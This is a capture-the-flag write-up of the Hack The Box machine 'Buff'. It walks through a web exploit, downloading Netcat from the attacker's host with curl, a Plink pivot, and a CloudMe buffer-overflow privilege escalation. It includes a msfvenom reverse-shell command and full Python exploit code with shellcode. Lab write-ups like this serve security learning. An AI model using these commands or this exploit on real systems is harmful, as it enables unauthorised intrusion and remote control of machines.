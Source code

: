 ```yaml
---
title: 'HTB: Buff'
date: '2020-11-21 19:04:00 -0400'
categories:
  - HackTheBox
  - Write-ups
tags:
  - HTB
  - pivot
  - overflow
published: true
---
```


IP: 10.10.10.198


We'll start things off with an NMap scan.
![06cfc558fe03d8b0c3ed3ca3e3649822.png](./../../assets/img/06cfc558fe03d8b0c3ed3ca3e3649822.png)


The webserver on port 8080 looks to be running Gym Management System. The standard footer has been changed to hide this, but it's still on the contact page.
![c1b4ec2904be4e3ec168d8841d9c5104.png](./../../assets/img/c1b4ec2904be4e3ec168d8841d9c5104.png)
![9b3d9de1efcab6ab008f565155f73edd.png](./../../assets/img/9b3d9de1efcab6ab008f565155f73edd.png)


We can use a public exploit to get a basic shell from [here](https://www.exploit-db.com/exploits/48506). If you're running Kali 2020, you will probably need to fix the exploit in order for it to work since Python2.7 is heavily phased out. This can be done with `2to3-2.7 -w 48506.py`.
![7275456c3113cf7b9e1dcbcea0218d3d.png](./../../assets/img/7275456c3113cf7b9e1dcbcea0218d3d.png)


Now we can run the exploit properly with Python3.
![f64f50b891d5a7611026a15244cbf293.png](./../../assets/img/f64f50b891d5a7611026a15244cbf293.png)


We can grab the user flag now before we try to get a better shell on the box.
![1e8c67e104e7a1a0c79a921f93aafe15.png](./../../assets/img/1e8c67e104e7a1a0c79a921f93aafe15.png)


CertUtil doesn't want to cooperate, but we do have access to Curl. We'll host a Netcat binary with `python -m SimpleHTTPServer 80` and then run `curl -O <kali-ip>:80/nc.exe` to pull it to the target.
![4a95b684b25ee4d221f0a4bb0f455638.png](./../../assets/img/4a95b684b25ee4d221f0a4bb0f455638.png)
![e1ec03a5cab2677f02cae976dc1bf2d2.png](./../../assets/img/e1ec03a5cab2677f02cae976dc1bf2d2.png)


Now we can start a listener and then call Netcat.
![f6956c3f6f6adca55ae60ed9c1b2ad8a.png](./../../assets/img/f6956c3f6f6adca55ae60ed9c1b2ad8a.png)
![ebed04248fed4e721a46f157b490dbc6.png](./../../assets/img/ebed04248fed4e721a46f157b490dbc6.png)


If we take a look at running processes with `tasklist` we see a strange process called CloudMe.
![7843a116bb14da112accdcffccd36db4.png](./../../assets/img/7843a116bb14da112accdcffccd36db4.png)


Looking around, we find the exe in Shaun's downloads folder.
![e3abd20723ec52b108ed4dcba88307cf.png](./../../assets/img/e3abd20723ec52b108ed4dcba88307cf.png)


A quick google search shows us that this version is vulnerable to a buffer overflow attack. Given the name of the box, [this](https://www.exploit-db.com/exploits/48389) should be our way to privesc. The default port for CloudMe is 8888. We can check to see if it's listening on that with `netstat -aof | findstr :8888`.
![15194e417049dd2769842e62bcc79a96.png](./../../assets/img/15194e417049dd2769842e62bcc79a96.png)


Unfortunately we can't access this directly if we look back at our Nmap scan. We'll have to find a way to pivot into it using something like Plink.


![e26a278e002293ad825c7dfbe53d1825.png](./../../assets/img/e26a278e002293ad825c7dfbe53d1825.png)


We need to run Curl in another instance of the web shell.
![7d184b4ad7770a1bd5612f598f738ed6.png](./../../assets/img/7d184b4ad7770a1bd5612f598f738ed6.png)
![4104ddb888b79f62429201098b951c84.png](./../../assets/img/4104ddb888b79f62429201098b951c84.png)


Now we can start up the SSH service on our system for the incoming connection we'll make with Plink.
![fb7892c83fd455faad4232846498a3c5.png](./../../assets/img/fb7892c83fd455faad4232846498a3c5.png)


Before we make the connection, I strongly suggest you use the `passwd` command to set a temp password, or use a temporary account in case someone manages to hijack your credentials.
![bfb63c6255693c09d4fcfbcbac53891b.png](./../../assets/img/bfb63c6255693c09d4fcfbcbac53891b.png)


After some tinkering, we find that trying to call Plink from within the CMD shell we have doesn't work. Restarting the NC shell while passing powershell.exe shows the certificate dialog so we can confirm it. We have also set our SSH service to run on port 443 as well since HTB blocks SSH out on port 22 to keep users safer.
![ef60c279631269273f4b1338b32afce9.png](./../../assets/img/ef60c279631269273f4b1338b32afce9.png)


Now we can generate a payload for the CloudMe exploit using MsfVenom.
```bash
msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe <kali-ip> 4445 -e powershell.exe' -b '\x00\x0A\x0D' -f python -v payload
```
![d50e016d78503e5f469c1fc64f172b6b.png](./../../assets/img/d50e016d78503e5f469c1fc64f172b6b.png)


Now we have our finished exploit.
```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
payload =  b""
payload += b"\xd9\xd0\xd9\x74\x24\xf4\xba\x32\x4a\x21\x90\x58"
payload += b"\x2b\xc9\xb1\x40\x83\xe8\xfc\x31\x50\x14\x03\x50"
payload += b"\x26\xa8\xd4\x6c\xae\xae\x17\x8d\x2e\xcf\x9e\x68"
payload += b"\x1f\xcf\xc5\xf9\x0f\xff\x8e\xac\xa3\x74\xc2\x44"
payload += b"\x30\xf8\xcb\x6b\xf1\xb7\x2d\x45\x02\xeb\x0e\xc4"
payload += b"\x80\xf6\x42\x26\xb9\x38\x97\x27\xfe\x25\x5a\x75"
payload += b"\x57\x21\xc9\x6a\xdc\x7f\xd2\x01\xae\x6e\x52\xf5"
payload += b"\x66\x90\x73\xa8\xfd\xcb\x53\x4a\xd2\x67\xda\x54"
payload += b"\x37\x4d\x94\xef\x83\x39\x27\x26\xda\xc2\x84\x07"
payload += b"\xd3\x30\xd4\x40\xd3\xaa\xa3\xb8\x20\x56\xb4\x7e"
payload += b"\x5b\x8c\x31\x65\xfb\x47\xe1\x41\xfa\x84\x74\x01"
payload += b"\xf0\x61\xf2\x4d\x14\x77\xd7\xe5\x20\xfc\xd6\x29"
payload += b"\xa1\x46\xfd\xed\xea\x1d\x9c\xb4\x56\xf3\xa1\xa7"
payload += b"\x39\xac\x07\xa3\xd7\xb9\x35\xee\xbd\x3c\xcb\x94"
payload += b"\xf3\x3f\xd3\x96\xa3\x57\xe2\x1d\x2c\x2f\xfb\xf7"
payload += b"\x09\xdf\xb1\x5a\x3b\x48\x1c\x0f\x7e\x15\x9f\xe5"
payload += b"\xbc\x20\x1c\x0c\x3c\xd7\x3c\x65\x39\x93\xfa\x95"
payload += b"\x33\x8c\x6e\x9a\xe0\xad\xba\xd9\x3c\x0e\x3d\xbf"
payload += b"\x2d\xde\xcd\x63\xc5\x6a\x4a\xf3\x76\xe0\xce\x6c"
payload += b"\x01\x6b\xb3\x07\x81\x1f\x24\x89\x05\xbc\xd4\x2a"
payload += b"\xeb\x59\x51\xc8\xd3\x90\x91\x3c\x22\xe3\xff\x71"
payload += b"\x70\x2d\x31\x42\x58\x05\x05\x96\xad\x45\x48\xb3"
payload += b"\xed\xf5\xfd\x4c\x88\x87\x72\xdb\x37\x04\x19\x35"
payload += b"\xd2\xac\x84\x49"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))

buf = padding1 + EIP + NOPS + payload + overrun 

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(buf)
except Exception as e:
        print(sys.exc_value)
```


We'll start up a new Netcat listener on port 4445 and fire off the exploit.
![f46a4c0b9690f0cac479efcd83437111.png](./../../assets/img/f46a4c0b9690f0cac479efcd83437111.png)
![1f85e6943af0a92fe0a7a6f19a515609.png](./../../assets/img/1f85e6943af0a92fe0a7a6f19a515609.png)


All that's left is to grab the root flag.
![44a5971c51e4bcda3735e3b9b8477165.png](./../../assets/img/44a5971c51e4bcda3735e3b9b8477165.png)
